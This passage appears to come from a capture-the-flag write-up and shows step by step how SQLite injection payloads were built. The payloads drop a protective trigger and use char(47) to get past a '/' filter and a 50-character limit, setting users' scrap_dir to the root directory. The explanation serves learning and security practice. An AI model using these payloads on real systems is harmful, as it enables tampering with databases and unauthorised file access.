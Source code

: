 Unless... We can just [drop (Delete) it](https://sqlite.org/lang_droptrigger.html):

```sql
DROP TRIGGER users_immutable_dirs;
```

Combined with our SQL injection payload:

```sql
');DROP TRIGGER users_immutable_dirs;SELECT
```

After that, we should be able to update `scrap_dir` to whatever we want.

#### SQL Injection Time!

With that out of the way, let's figure out how to bypass the `/` character filter!

Since we want to read files in the root directory (`/`), maybe we can traversal the path to `/`? Of course, this doesn't work at all. First off, it still contains character `/`. Second off, we might get pass the character length limit. Remember, our payload's maximum length is 50.

Hmm... Are there any functions in SQLite that **convert**, let's say an integer, to an **ASCII character**?

After searching through SQLite's documentation, I came across with the [`unhex` function](https://sqlite.org/lang_corefunc.html#unhex). As the name suggested, it decodes hexadecimal strings:

```sql
SELECT unhex('41');
```

Sadly, it'll return a [`BLOB`](https://www.sqlite.org/datatype3.html#storage_classes_and_datatypes) value, which is different from `TEXT` (String) data type.

Luckily, [function `char`](https://sqlite.org/lang_corefunc.html#char) will do the exact same thing, but returns a `TEXT` value:

```sql
SELECT char(65);
```

> Note: The value is in unicode code point values, NOT hexadecimal.

If we look up to the [ASCII table](https://www.ascii-code.com/), character `/`'s unicode code point value is `47`. Nice! We found the bypass!

With that being said, we can finally work on the SQL injection payload!

```sql
');UPDATE users SET scrap_dir=char(47) WHERE id=1;SELECT
```

Ahh... Wait a minute, our payload length is now at `56`! We're 6 characters off from the maximum length!

Well... Can we just update every users' `scrap_dir` to `/`?!

```sql
');UPDATE users SET scrap_dir=char(47);SELECT
```

If we test this locally **without** creating new users, yes, it'll work.
